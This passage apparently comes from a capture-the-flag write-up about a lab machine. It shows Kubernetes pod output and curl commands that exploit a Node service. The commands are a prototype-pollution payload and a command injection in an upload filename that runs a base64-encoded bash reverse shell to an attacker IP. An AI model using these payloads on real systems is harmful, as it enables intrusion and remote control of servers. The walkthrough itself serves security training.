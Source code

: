```bash
    Last State:     Terminated
      Reason:       Error
      Exit Code:    137
      Started:      Wed, 24 Mar 2021 10:43:09 +0000
      Finished:     Wed, 24 Mar 2021 10:48:20 +0000
    Ready:          True
    Restart Count:  27
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from default-token-rmcd6 (ro)
Conditions:
  Type              Status
  Initialized       True
  Ready             True
  ContainersReady   True
  PodScheduled      True
Volumes:
  default-token-rmcd6:
    Type:        Secret (a volume populated by a Secret)
    SecretName:  default-token-rmcd6
    Optional:    false
QoS Class:       BestEffort
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```

After checking things it seems like we are in a different environment, we are in production running our commands against the dev environment. So we can use the same attack we did before to gain a foothold. I setup another pwncat listener on a differ port then ran the previous exploit commands from our current shell against the local IP using curl:

```bash
curl 172.17.0.9:3000/ -XPUT -d '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"x","__proto__":{"canUpload":true}}}' -H "Content-Type: application/json"
```

```bash
curl 172.17.0.9:3000/upload -XPOST -d '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"& echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45MC81NTU1IDA+JjEnCg== | base64 -d | bash 2>/dev/null"}' -H "Content-Type: application/json"
```

![../../assets/images/unobtainium/Untitled_25.png](../../assets/images/unobtainium/Untitled_25.png)
